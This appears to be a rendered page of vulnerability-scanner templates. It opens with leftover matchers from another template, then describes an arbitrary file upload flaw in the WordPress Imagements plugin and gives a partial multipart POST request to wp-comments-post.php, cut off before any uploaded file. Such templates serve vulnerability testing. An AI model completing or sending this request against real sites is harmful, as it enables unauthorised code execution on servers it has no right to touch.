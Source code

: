 ### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. POC_TEST
- part - body

**Type - word**

- words
  1. text/plain
  2. ASP.NET
- condition - and
- part - header

---

# WordPress Imagements \<=1.2.5 - Arbitrary File Upload

## Description

- WordPress Imagements plugin through 1.2.5 is susceptible to arbitrary file upload which can lead to remote code execution. The plugin allows images to be uploaded in comments but only checks for the Content-Type in the request to forbid dangerous files. An attacker can upload arbitrary files by using a valid image Content-Type along with a PHP filename and code.

- severity - critical
- tags - cve,wp,unauth,imagements,wpscan,cve2021,fileupload,wordpress,wp-plugin,intrusive

## Requests

### Step - 1

```
POST /wp-comments-post.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIYl2Oz8ptq5OMtbU

------WebKitFormBoundaryIYl2Oz8ptq5OMtbU
Content-Disposition: form-data; name="comment"

{{randstr}}
------WebKitFormBoundaryIYl2Oz8ptq5OMtbU
Content-Disposition: form-data; name="author"

{{randstr}}
------WebKitFormBoundaryIYl2Oz8ptq5OMtbU
Content-Disposition: form-data; name="email"

{{randstr}}@email.com
------WebKitFormBoundaryIYl2Oz8ptq5OMtbU
Content-Disposition: form-data; name="url"

------WebKitFormBoundaryIYl2Oz8ptq5OMtbU
Content-Disposition: form-data; name="checkbox"


yes
------WebKitFormBoundaryIYl2Oz8ptq5OMtbU
```